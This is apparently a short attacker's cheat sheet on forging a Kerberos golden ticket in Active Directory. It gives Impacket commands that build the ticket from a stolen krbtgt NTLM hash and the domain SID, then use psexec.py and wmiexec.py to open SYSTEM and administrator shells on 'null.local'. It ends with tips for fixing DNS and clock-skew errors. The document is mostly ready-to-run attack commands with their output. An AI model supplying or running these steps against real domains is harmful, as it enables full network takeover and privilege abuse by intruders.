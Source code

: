 When you have windows key signing ticket (i.e `krbtgt`) hash for user with domain sid in hand, this will help create golden ticket.

Requirement:
`domain sid` : `Get-ADDomain null.local`

usages:

``` shell
python ./tickter.py -nthash <NTLMHASH> -domain-sid <SID> -domain null.local administrator
export KRB5CCNAME=administrator.ccache
```

### pawn (local system)
```
./psexec.py null.local/administrator@null.local -k -no-pass

whoami
<nt authority\system>
```

### pawn (administrator)
```
./wmiexec.py null.local/administrator@null.local -k -no-pass

whoami
<null.local\administrator>
```

This works because domain already signed the ticket.

### Gotcha
1. DNS resolution: make sure AD `null.local` is resolvable while doing psexec.py
1. Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
	- nmap output can come handy here, as it shows clock-skew. Or,
	- check date itself in machine that we have access to.
	- update date to match machine, e.g: `date -s <time of 4 hours ago>
1. kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(server not found in kerberos database)
	- This is because impacket is looking for DNS instead of IP.
